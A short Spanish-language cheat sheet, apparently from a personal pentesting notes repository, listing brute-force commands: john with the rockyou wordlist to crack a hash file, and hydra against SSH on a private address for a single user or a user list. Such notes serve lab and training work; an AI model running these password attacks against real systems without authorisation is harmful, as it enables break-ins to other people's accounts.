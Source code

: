# Fuerza bruta

Aquí se almacenan los comandos utilizados para hacer `fuerza bruta` a medida que los vamos descubriendo.

## john

Romper hash almacenado en fichero

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

## hydra

Romper ssh para un usuario.

```bash
hydra -l pepe -P /usr/share/wordlists/rockyou.txt ssh://192.168.11.166 
```

Romper ssh para listado de usuarios.

```bash
hydra -L users -P /usr/share/wordlists/rockyou.txt ssh://192.168.11.166 
```

